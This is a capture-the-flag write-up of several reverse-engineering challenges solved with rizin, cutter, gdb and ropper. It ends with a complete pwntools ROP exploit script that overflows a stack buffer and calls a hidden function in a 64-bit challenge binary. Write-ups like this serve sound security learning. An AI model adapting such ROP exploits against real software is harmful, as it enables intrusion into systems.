:bulb: Rizin is a fork of radare2, one of the most popular reverse engineering tools.

## Reversing Warmup

We run `strings` on the binary and get our flag:





I later ran the binary, and it just gave the flag. Silly me!



## Can You C Me

Running the binary asks us for correct password which we don't know yet.

Upon opening the binary with rizin, we can see our flag right there but it's scattered. We can also see another string which resembles a password.




Providing that password to the binary, we get our flag:




## Modulus Encryption

The flag for the challenge has been encrypted using the `encryption.py` python script and the generated output is the `output.txt` file. Our goal is to decrypt the flag.

The script is taking input data as `flag.txt`. The `encrypt` function gets the unicode code of each character present in the file with `ord()` and adds some integers to it. Then, it converts the characters back to ASCII with `chr()`.




We take the encrypted data `output.txt` as input. After getting the unicode, instead of adding, we modify the original technique a bit by subtracting the integers and then converting back to ASCII.

Upon running the modified script, we get the flag.




## Make it Go!

Running the binary asks us to enter password.

Opening the challenge file in `rizin`, we `seek` to `main` function and disassemble it. 




Going a bit down, we can see the `Enter_Password` string which is later being printed in the console with a `call` to `Fprint`:




Going futher down, we see there is the call to `Fscanln` which is taking user input. In the next instructions, there's a string comparison being made and then there is the `jne` (jump if not equal) instruction from which we can deduce that there's a condition being checked.

We can see that the user input is being compared to `0x45ea856`.




On providing the hex number to our binary, we get the flag:





## Pokemon Evolution

:bulb: [Here](http://gauss.ececs.uc.edu/Courses/c6056/pdf/rop.pdf) is a nice resource for ROP.

We are given challege files as `pokemon_challenge.zip`. The binary prints out some ASCII art and asks us for input `Feed :`

We open the challenge binary in `cutter` (GUI for rizin). I have the decompiler plugin installed, so we navigate to `Decompiler` tab.

Along `main` and `register_name` functions, we can see another function `hacked`. In the decompiled code, we can see that an `if` condition is checking the function arguments. We can also see the values against which the params are being compared. Let's keep note of these values.



After trying random input lengths for quite a bit, the offset for RIP comes out to be `24`.




Now that we have RIP under control, we need to find the memory addresses of `hacked` funtion and ROP gadgets.

As we studied [here](https://signore.co.uk/blog/posts/pwn-0x00-warmup/#03-architectures-comparison), if the binary was 32-bit, we could have just pushed the function arguments onto the stack. But, as our binary is 64-bit and arguments are being accessed through `registers`, we'll take the help of ROP gadgets to achieve our goal. 

We can find the memory address of the `hacked` function with gdb and ROP gadgets with `ropper`.








Putting it all together, our final exploit script looks like this:

```py {linenos=true}
#!/usr/bin/python
from pwn import *

def start(argv=[], *a, **kw):
    if args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

exe = './pokemon_evolve'
elf = context.binary = ELF(exe, checksec=False)

padding="A"*24
hacked_function_addr = 0x40119a
pop_rdi = 0x401196
pop_rsi = 0x401198

payload = flat(padding, pop_rdi, 0xdeadbeefdeadbeef,
    pop_rsi, 0xc0debabec0debabe, hacked_function_addr)

io = start()
io.recvuntil("Feed :")
io.sendline(payload)
io.interactive()
```


On running the exploit, we successfully execute `hacked` function and bypass the conditional check by providing right arguments which, along with the beautiful dragon, returns the contents of `flag.txt`.





Since I did the challenge really late, the remote server wasn't responding anymore and I could pwn the binary locally only.

Initially, my exploit wasn't working and I was going mad about it.<br>
Later, @MoLover shared his exploit script with offset `24` while my exploit had `22`. Thanks to him, as soon as I changed the offset of RIP in my exploit it, eventually, worked!
